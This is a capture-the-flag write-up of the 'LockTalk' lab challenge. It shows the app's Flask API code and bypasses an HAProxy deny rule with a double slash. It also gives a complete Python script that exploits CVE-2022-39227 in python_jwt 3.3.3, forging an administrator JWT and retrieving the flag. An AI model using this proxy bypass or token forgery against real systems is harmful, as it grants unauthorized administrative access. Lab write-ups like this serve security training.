 # LockTalk

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Writeup

The site use **three** different **api**:

```python
@api_blueprint.route('/get_ticket', methods=['GET'])
def get_ticket():

    claims = {
        "role": "guest", 
        "user": "guest_user"
    }
    
    token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
    return jsonify({'ticket: ': token})


@api_blueprint.route('/chat/<int:chat_id>', methods=['GET'])
@authorize_roles(['guest', 'administrator'])
def chat(chat_id):

    json_file_path = os.path.join(JSON_DIR, f"{chat_id}.json")

    if os.path.exists(json_file_path):
        with open(json_file_path, 'r') as f:
            chat_data = json.load(f)
        
        chat_id = chat_data.get('chat_id', None)
        
        return jsonify({'chat_id': chat_id, 'messages': chat_data['messages']})
    else:
        return jsonify({'error': 'Chat not found'}), 404


@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

We can generate a valid **jwt** but there is a proxy rule that do not allow it:

```
http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

To bypass it, we can add one more **/**:

```
http://{ip}:{port}//api/v1/get_ticket
```

Now we have a valid **jwt** and we can interact with the site.

To obtain the flag, need to call the **/flag** but our role need to be '**administrator**' and by default our role is **guest**:

```python
def authorize_roles(roles):
    def decorator(func):
        @wraps(func)
        def wrapper(*args, **kwargs):
            token = request.headers.get('Authorization')

            if not token:
                return jsonify({'message': 'JWT token is missing or invalid.'}), 401

            try:
                token = jwt.verify_jwt(token, current_app.config.get('JWT_SECRET_KEY'), ['PS256'])
                user_role = token[1]['role']

                if user_role not in roles:
                    return jsonify({'message': f'{user_role} user does not have the required authorization to access the resource.'}), 403

                return func(*args, **kwargs)
            except Exception as e:
                return jsonify({'message': 'JWT token verification failed.', 'error': str(e)}), 401
        return wrapper
    return decorator
```

So we need to **forge** a valid **jwt** with **administrator** role.

In the **requirements.txt** file we can find the version of **python_jwt**:

```
uwsgi
Flask
requests
python_jwt==3.3.3
```

For this version there is a **CVE** (**CVE-2022-39227**).

So, now integrate the **CVE PoC** with our script:

```python
#!/usr/bin/python3
import requests
from json import loads, dumps
from jwcrypto.common import base64url_decode, base64url_encode

ip = "94.237.58.155"
port = 39169

url = f"http://{ip}:{port}//api/v1" # Bypass proxy rule

def get_ticket(s):
    req = s.get(url + "/get_ticket")
    s.headers.update({'Authorization': (req.json())['ticket: ']})
    return req.text

def chat(s, id):
    req = s.get(url + f"/chat/{id}")
    return req.text

def flag(s):
    """
    CVE-2022-39227
    """
    token = s.headers['Authorization']
    [header, payload, signature] = token.split(".")
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload['role'] = 'administrator'
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))
    new_payload = '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
    s.headers.update({'Authorization' : new_payload})
    req = s.get(url + "/flag")
    return req.text

if __name__ == "__main__":
    s = requests.Session()
    get_ticket(s)
    print(flag(s))
```

The flag is:

```
HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}
```